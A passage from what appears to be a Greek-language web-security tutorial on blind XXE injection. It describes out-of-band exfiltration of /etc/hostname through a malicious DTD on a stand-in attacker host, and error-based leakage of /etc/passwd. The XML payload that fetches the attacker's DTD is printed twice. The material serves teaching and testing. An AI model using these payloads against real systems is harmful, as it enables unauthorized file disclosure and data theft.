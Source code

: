 1. **Ορισμός Οντοτήτων Παραμέτρων:**
- Δημιουργείται μια οντότητα παραμέτρου XML, `%file`, η οποία διαβάζει το περιεχόμενο του αρχείου `/etc/hostname`.
- Ορίζεται μια άλλη οντότητα παραμέτρου XML, `%eval`. Δηλώνει δυναμικά μια νέα οντότητα παραμέτρου XML, `%exfiltrate`. Η οντότητα `%exfiltrate` ορίζεται να κάνει ένα αίτημα HTTP στον διακομιστή του επιτιθέμενου, περνώντας το περιεχόμενο της οντότητας `%file` στο query string του URL.

2. **Εκτέλεση Οντοτήτων:**
- Χρησιμοποιείται η οντότητα `%eval`, οδηγώντας στην εκτέλεση της δυναμικής δήλωσης της οντότητας `%exfiltrate`.
- Στη συνέχεια, χρησιμοποιείται η οντότητα `%exfiltrate`, ενεργοποιώντας ένα αίτημα HTTP προς τον καθορισμένο URL με το περιεχόμενο του αρχείου.

Ο επιτιθέμενος φιλοξενεί αυτό το κακόβουλο DTD σε έναν διακομιστή υπό τον έλεγχό του, συνήθως σε ένα URL όπως `http://web-attacker.com/malicious.dtd`.

**Πληρωματικό Φορτίο XXE:**
Για να εκμεταλλευτεί μια ευπαθή εφαρμογή, ο επιτιθέμενος στέλνει ένα πληρωματικό φορτίο XXE:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
Αυτό το payload καθορίζει ένα XML παραμετρικό entity `%xxe` και το ενσωματώνει στο DTD. Όταν επεξεργάζεται από έναν XML αναλυτή, αυτό το payload ανακτά το εξωτερικό DTD από τον διακομιστή του επιτιθέμενου. Ο αναλυτής στη συνέχεια ερμηνεύει το DTD inline, εκτελώντας τα βήματα που περιγράφονται στο κακόβουλο DTD και οδηγώντας στη διαρροή του αρχείου `/etc/hostname` στον διακομιστή του επιτιθέμενου.

### Βασισμένο σε σφάλματα (Εξωτερικό DTD)

**Σε αυτήν την περίπτωση θα κάνουμε τον διακομιστή να φορτώσει ένα κακόβουλο DTD που θα εμφανίσει το περιεχόμενο ενός αρχείου μέσα σε ένα μήνυμα σφάλματος (αυτό ισχύει μόνο αν μπορείτε να δείτε μηνύματα σφαλμάτων).** [**Παράδειγμα από εδώ.**](https://portswigger.net/web-security/xxe/blind)

Ένα μήνυμα σφάλματος ανάλυσης XML, που αποκαλύπτει το περιεχόμενο του αρχείου `/etc/passwd`, μπορεί να προκληθεί χρησιμοποιώντας ένα κακόβουλο εξωτερικό Document Type Definition (DTD). Αυτό επιτυγχάνεται μέσω των ακόλουθων βημάτων:

1. Καθορίζεται ένα παραμετρικό entity XML με το όνομα `file`, το οποίο περιέχει το περιεχόμενο του αρχείου `/etc/passwd`.
2. Καθορίζεται ένα παραμετρικό entity XML με το όνομα `eval`, το οποίο ενσωματώνει μια δυναμική δήλωση για ένα άλλο παραμετρικό entity XML με το όνομα `error`. Αυτό το entity `error`, όταν αξιολογηθεί, προσπαθεί να φορτώσει ένα μη υπαρκτό αρχείο, ενσωματώνοντας το περιεχόμενο του entity `file` ως όνομά του.
3. Επικαλείται το entity `eval`, οδηγώντας στη δυναμική δήλωση του entity `error`.
4. Η επίκληση του entity `error` οδηγεί στην προσπάθεια φόρτωσης ενός μη υπαρκτού αρχείου, παράγοντας ένα μήνυμα σφάλματος που περιλαμβάνει το περιεχόμενο του αρχείου `/etc/passwd` ως μέρος του ονόματος του αρχείου.

Το κακόβουλο εξωτερικό DTD μπορεί να επικαλεστεί με το ακόλουθο XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
Κατά την εκτέλεση, η απόκριση του διακομιστή ιστού θα πρέπει να περιλαμβάνει ένα μήνυμα σφάλματος που εμφανίζει το περιεχόμενο του αρχείου `/etc/passwd`.

